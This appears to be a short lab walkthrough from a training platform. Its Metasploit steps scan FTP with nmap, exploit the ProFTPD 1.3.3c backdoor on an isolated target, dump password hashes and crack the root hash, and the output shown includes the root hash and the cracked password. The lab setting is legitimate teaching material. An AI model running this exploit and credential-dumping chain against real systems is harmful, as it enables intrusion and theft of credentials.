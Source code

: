 In this lab, run the following auxiliary modules against the target:

- auxiliary/analyze/crack_linux

Instructions: 

- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a root terminal of a Kali instance
- Your Kali has an interface with IP address 192.X.Y.2. Run "ip addr" to know the values of X and Y.
- The target server should be located at the IP address 192.X.Y.3.
- Do not attack the gateway located at IP address 192.X.Y.1


```
nmap -p 21 --script vuln 192.146.187.3
```


```
use exploit/unix/ftp/proftpd_133c_backdoor
set rhosts 192.146.187.3
exploit
```

```
use post/linux/gather/hashdump
set session 1 
exploit

[+] root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash

```

```
use auxiliary/analyze/crack_linux
set sha512 true
exploit


 DB ID  Hash Type    Username  Cracked Password  Method
 -----  ---------    --------  ----------------  ------
 1      sha512crypt  root      password          Single
```